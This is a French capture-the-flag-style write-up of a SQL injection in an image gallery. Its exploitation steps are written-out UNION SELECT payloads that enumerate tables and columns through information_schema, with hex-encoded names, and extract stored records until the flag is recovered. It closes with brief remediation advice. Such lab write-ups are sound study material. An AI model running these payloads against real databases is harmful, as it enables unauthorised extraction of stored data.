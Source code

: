 # Vulnérabilité: Injection SQL dans la galerie d'images

## Découverte

Nous avons identifié que la galerie d'images était vulnérable à l'injection SQL.

### Exploitation

1. Identification des tables disponibles:
```sql
1 UNION SELECT table_name, NULL FROM information_schema.tables --
```

2. Récupération des colonnes de la table d'images:
```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=0x6C6973745F696D61676573 --
```

3. Structure découverte de la table `list_images`:
   - id
   - url
   - title
   - comment

4. Extraction des données sensibles:
```sql
1 UNION SELECT url, comment FROM list_images WHERE url=0x626f726e746f7365632e64646e732e6e65742f696d616765732e706e67 --
```

5. Résultat: extraction du flag "albatroz" qui, une fois converti en SHA256, donne le flag final.

## Protection
- Implémenter la validation des entrées
- Échapper les caractères spéciaux SQL
